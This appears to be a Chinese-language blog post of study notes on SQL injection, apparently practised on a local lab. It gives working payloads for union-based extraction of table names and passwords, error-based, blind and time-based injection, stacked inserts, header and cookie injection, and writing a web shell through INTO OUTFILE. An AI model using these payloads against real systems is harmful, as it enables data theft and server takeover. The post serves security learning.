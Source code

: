 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
	![1.jpg]({{site.baseurl}}/_posts/1.jpg)

   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟


### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![2.jpg]({{site.baseurl}}/_posts/2.jpg)
报错信息’）要需求多构造）
![3.jpg]({{site.baseurl}}/_posts/3.jpg)


### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码
